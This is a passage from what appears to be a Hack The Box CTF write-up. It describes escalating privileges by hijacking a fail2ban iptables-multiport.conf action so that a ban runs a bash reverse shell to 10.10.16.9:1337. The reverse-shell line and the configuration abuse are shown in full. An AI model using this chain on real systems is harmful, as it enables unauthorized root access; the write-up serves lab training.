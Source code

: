 <div style="text-align:center">
	<img src="{{ 'assets/img/HTB/Pasted image 20221114215756.png' | relative_url }}" text-align="center"/>
</div>

Then we access it and list it. On it, we see multiple configuration files, we are interested on iptables-multiports.conf. As fare as we know, iptables is a firewall software that can implements measures to detect and ban malicious users on a system. This file have some basic configurations features:

<div style="text-align:center">
	<img src="{{ 'assets/img/HTB/Pasted image 20221114220957.png' | relative_url }}" text-align="center"/>
</div>

Ass we have permissions over the action.d file since we are part of the security group, we can't modify files but we can modify the contents of the directory so in order to make us owners of the file we perfom the following action:

```bash
mv iptables-multiport.conf .old; 
cp .old iptables-multiport.conf 
ls -l iptables-multiport.conf
```

<br />

<div style="text-align:center">
	<img src="{{ 'assets/img/HTB/Pasted image 20221114221406.png' | relative_url }}" text-align="center"/>
</div>

Thus, we know modify the propierty of the file and we can now write on it following the established permissions. Then, we write a reverse-shell script on /tmp:

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.16.9/1337 0>&1
```

And we give it execute permissions with chmod. Then, we modify the file to force the service to act executing the script once and over when a user gets banned:


```defaul
actionban= /tmp/shell.sh
```

Then, we restart the service as sudo to enable the new configuration and attemp to log as the michael user wrong several times until a shell in our netcat listener spawn:

<div style="text-align:center">
	<img src="{{ 'assets/img/HTB/Pasted image 20221114223128.png' | relative_url }}" text-align="center"/>
</div>

<br />


### 4. Return - Windows. (LDAP Printer credentials, Service Binary Path)
